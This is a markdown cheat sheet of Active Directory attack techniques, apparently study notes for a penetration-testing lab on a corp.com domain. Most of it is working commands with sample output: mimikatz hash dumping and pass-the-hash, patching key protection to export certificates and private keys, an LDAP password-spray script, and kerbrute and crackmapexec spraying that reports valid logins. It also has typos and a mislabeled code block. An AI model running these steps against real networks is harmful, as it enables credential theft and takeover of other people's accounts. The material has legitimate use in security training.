 # AD Attacking

By default, the NTDS file (NTDS.dit) is located in %SystemRoot%\NTDS\Ntds.dit of a domain controller.

## NTLM Active Directory Authentication

Scenario (still working):

* The client is authenticating to a server using an IP address
* The client is authenticating to a server that belongs to a different Active Directory forest that has a legacy NTLM trust instead of a transitive inter-forest trust
* The client is authenticating to a server that doesn't belong to a domain
* No Active Directory domain exists (commonly referred to as "workgroup" or "peer-to-peer")
* Where a firewall would otherwise restrict the ports required by Kerberos (typically TCP 88)

## Kerberos Active Directory Authentication with NTLM pass-the-hash

Scenario:

* **Limitation**: Requires Windows NTLM has been stolen
* Use mimikatz module [sekurlsa](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa)
* Run sekurlsa::pth to insert NTLM into the windows memory
* Run sekurlsa::ekeys to elimiminate all HTLM hashes
* Connect via SMB to create Kerberos Ticket
* List Kerberos Tickets
* From [Duckwall-Abusing-Microsoft-Kerberos](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)

```powershell
mimekatz# 
privilege::debug

# Use mimikatz sekurlsa::loggonpasswords to dump a list of logged-on users NTLM hashs
sekurlsa::logonpasswords

# Use mimikatz sekurlsa::pth to insert NTLM into the windows memory
sekurlsa::pth /user:Administrator /domain:example.com /ntlm:8846F7EAEE8FB117AD06BDD830B7586D
sekurlsa::ekeys

# open SMB share the issue a ticket
dir \\web.example.com\share

# Show Keberos ticket with mimikatz
mimikatz#
sekurlsa::tickets

Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/26/2025 5:35:45 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/26/2025 7:32:22 AM ; 9/26/2025 3:35:45 PM ; 10/3/2025 5:35:45 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
```

## Extract AD Certificates and Private Keys

* Use mimikatz to patch disable key protection
* Run crypto::capi to patch [CryptoAPI](https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto#capi)
* Run crypto::cng to patch [KeyIso](https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto#cng)
* Run crypto::stores to list [systemstores](https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto#stores)
* Run crypto::certificates to extract [certificates](https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto#certificates)
* Run crypto::keys to extract [private keys](https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto#keys)
* User openssl to convert PVK (it an RSA key) into PEM Format

```powershell
mimikatz# 
privilege::debug

# Disable private key protection
crypto::capi
Local "CryptoAPI" patched
crypto::cng
"KeyIso" service patched

# List crypto stores
crypto::stores /systemstore:local_machine

# Extract certificates and private keys from local machine
crypto::certificates /systemstore:local_machine /store:my /export
crypto::keys /export

# Convert PVK into PEM
openssl rsa -inform pvk -in key.pvk -outform pem -out key.pem
```

## Attacks on Active Directory Authentication

## AD Password Spraying via LDAP

```shell
net accounts

Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
```

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://" + $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "mary", "Secr3t")

# Success
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com

# Wrong Password
format-default : The following exception occurred while retrieving member "distinguishedName": 
"The user name or password is incorrect.

```

## Automate AD Password Spraying via LDAP with Spray-Passwords.ps1

Features

* Query net accounts to avoid lockout
* Query net users to find all users
* Options
* -Pass Allows to provide a password
* -File Allows to provide a wordlist
* -Admin Tests for admin accounts too

```powershell
cd tools
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass 'Secr3t' -Admin
```

## AD Password Spraying with Kerbrute

Feature

* Download [kerbrute](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)
* Cross-platform for Linux and Windows and Mac
* bruteuser - Bruteforce a single user's password from a wordlist
* bruteforce - Read username:password combos from a file or stdin and test them
* userenum - Enumerate valid domain usernames via Kerberos
* passwordspray - Test a single password against a list of users

```bash
cd tools
.\kerbrute_windows_amd64.exe userenum -d corp.com .\usernames.txt

2025/09/26 08:54:44 >   dc1.corp.com:88
2025/09/26 08:54:44 >  [+] VALID USERNAME:       jeff@corp.com
2025/09/26 08:54:44 >  [+] VALID USERNAME:       dave@corp.com

.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

2025/09/26 08:56:56 >   dc1.corp.com:88
2025/09/26 08:56:56 >  [+] VALID LOGIN:  jeff@corp.com:Nexus123!
```

The **wordlist usernames.txt MUST be ANSI encoded**. Otherwise you get a network error.

## AD Password Spraying with CrackMap

Scenario

* AD Credential have been leaked without user name
* Use `crackmapexec` for password spraying attack

```bash
# IP Range
crackmapexec smb 192.168.226.70-76 -u /tmp/users.txt -p 'Nexus123!' -d corp.com --continue-on-success

SMB         192.168.226.75  445    CLIENT75         [*] Windows 11 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.226.75  445    CLIENT75         [-] corp.com\dave:Secr3t! STATUS_LOGON_FAILURE 
SMB         192.168.226.75  445    CLIENT75         [+] corp.com\jeff:Secr3t! (Pwn3d!)
SMB         192.168.226.75  445    CLIENT75         [-] corp.com\mary:Secr3t! STATUS_LOGON_FAILURE 

```